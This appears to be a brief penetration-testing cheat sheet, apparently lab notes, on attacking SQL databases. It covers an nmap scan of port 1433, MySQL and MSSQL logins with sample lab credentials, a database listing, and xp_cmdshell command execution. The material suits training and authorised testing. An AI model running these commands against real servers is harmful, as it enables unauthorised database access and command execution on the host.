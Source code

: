 Enumeration
```shell
nmap -Pn -sV -sC -p1433 10.10.10.125
```

MySQL - Connecting to the SQL Server
```shell
mysql -u julio -pPassword123 -h 10.129.20.13
```

Sqlcmd - Connecting to the SQL Server
```shell
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

```shell
mssqlclient.py -p 1433 julio@10.129.203.7
```

```sql
1> SELECT name FROM master.dbo.sysdatabases
2> GO

name
--------------------------------------------------
master
tempdb
model
msdb
htbusers
```
XP_CMDSHELL
```sql
xp_cmdshell 'whoami'
```






























